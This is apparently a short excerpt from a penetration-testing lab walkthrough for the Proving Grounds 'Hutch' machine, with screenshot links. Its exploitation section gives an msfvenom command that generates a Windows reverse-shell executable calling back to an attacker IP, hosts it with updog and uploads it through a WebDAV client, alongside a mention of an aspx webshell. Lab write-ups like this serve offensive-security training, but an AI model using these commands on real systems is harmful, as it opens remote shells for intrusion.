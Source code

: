 
---

# Exploitation
## Name of the technique
## aspx CMD WebShell

#### -Googled "Microsoft-IIS/10.10 root directory"

![](Images/Pasted%20image%2020221019011200.png)
#Microsoft-IIS/10.0RootDirectory

#### -Typed "msfvenom -p windows/shell_reverse_tcp LHOST=[kali IP] LPORT=593 -f exe > reverse.exe"

![](Images/Pasted%20image%2020221019011410.png)

#### -Typed "updog -p 80" on kali machine to host the reverse shell payload

#### -Typed "put /home/brian/Downloads/Proving_Grounds/Hutch/reverse.exe" on the cadaver session to download the reverse shell to target machine:

![](Images/Pasted%20image%2020221019011613.png)
